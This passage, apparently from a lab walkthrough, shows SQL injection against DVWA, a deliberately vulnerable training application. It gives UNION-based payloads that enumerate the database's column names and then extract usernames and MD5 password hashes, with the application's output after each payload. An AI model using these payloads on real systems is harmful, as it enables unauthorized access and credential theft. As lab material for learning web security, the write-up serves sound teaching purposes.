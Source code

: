 10. Display all the columns fields

ID: ' union select column_name,column_name from information_schema.columns where  table_schema='dvwa'#
First name: comment_id
Surname: comment_id
ID: ' union select column_name,column_name from information_schema.columns where  table_schema='dvwa'#
First name: comment
Surname: comment
ID: ' union select column_name,column_name from information_schema.columns where  table_schema='dvwa'#
First name: name
Surname: name
ID: ' union select column_name,column_name from information_schema.columns where  table_schema='dvwa'#
First name: user_id
Surname: user_id
ID: ' union select column_name,column_name from information_schema.columns where  table_schema='dvwa'#
First name: first_name
Surname: first_name
ID: ' union select column_name,column_name from information_schema.columns where  table_schema='dvwa'#
First name: last_name
Surname: last_name
ID: ' union select column_name,column_name from information_schema.columns where  table_schema='dvwa'#
First name: user
Surname: user
ID: ' union select column_name,column_name from information_schema.columns where  table_schema='dvwa'#
First name: password
Surname: password
ID: ' union select column_name,column_name from information_schema.columns where  table_schema='dvwa'#
First name: avatar
Surname: avatar
ID: ' union select column_name,column_name from information_schema.columns where  table_schema='dvwa'#
First name: last_login
Surname: last_login
ID: ' union select column_name,column_name from information_schema.columns where  table_schema='dvwa'#
First name: failed_login
Surname: failed_login


11. Extract Credentials

ID:  ' UNION SELECT user, password FROM  users#
First name: admin
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
ID:  ' UNION SELECT user, password FROM  users#
First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03
ID:  ' UNION SELECT user, password FROM  users#
First name: 1337
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b
ID:  ' UNION SELECT user, password FROM  users#
First name: pablo
Surname: 0d107d09f5bbe40cade3de5c71e9e9b7
ID:  ' UNION SELECT user, password FROM  users#
First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
